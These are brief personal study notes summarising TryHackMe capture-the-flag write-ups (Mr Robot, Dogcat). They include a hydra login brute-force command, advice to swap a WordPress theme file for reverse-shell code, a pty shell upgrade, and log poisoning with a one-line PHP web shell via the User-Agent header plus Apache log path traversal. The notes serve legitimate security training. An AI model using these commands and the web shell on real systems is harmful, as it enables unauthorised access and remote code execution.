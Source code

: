 ```yaml
---
title: Weekly Review 
date: 2023-10-08
categories: [CTF Write Up, THM]
tags: [hydra, interactiveshell, wordpress]
img_path: /assets/mr_robot/
mermaid: true
---
```

## [Mr Robot](https://cspanias.github.io/posts/Mr-Robot-Write-Up-(2023)/) 

### Dictionary Attack with hydra

1. Login with random creds and check for login error message. 
2. Capture POST request to get its params.
3. Try building a username list by using static pass.
4. If users found, try the reverse. 

 ```shell
 hydra -L <username_list> -p <static_pass> <target-ip> http-post-form "/login_dir:log=^USER^&pwd=^PASS^:F=<error message>" -t 30
 ```
 
 ### RCE on WordPpress 
 
 1. We need admin acc for accessing Appearance --> Editor.
 2. Replance an appropriate PHP script with reverse shell code. 
 
 Interactive terminal
 
 ```shell
 python -c 'import pty;pty.spawn("/bin/bash");'
 ```
 
 ## [Dogcat](https://cspanias.github.io/posts/Dogcat-Write-Up-(2023)/)
 
 ### Log Poisoning
 
 1. NULL Byte usage: `%00` / `&`.
 2. In case we can perform `../` in an Apache web server, we can target its **log file** under `/var/log/apache2/access.log`.
 3. Use the **User-Agent** of the captured request and replace it with code accepting commands:
 ```PHP
 <?php system($_GET['c']); ?>
 ```
 4. Now we can execute commands such as `/access.log&ext&c=<command>`, checking the output in the HTTP response.
 5. Run Metasploit's **web delivery** module, and pass the output as command.
 
 ### Container Escape
 
 1. Check ```hostname```. 
 2. To break out we need to find a way to launch a reverse shell from the current env (Inception concept).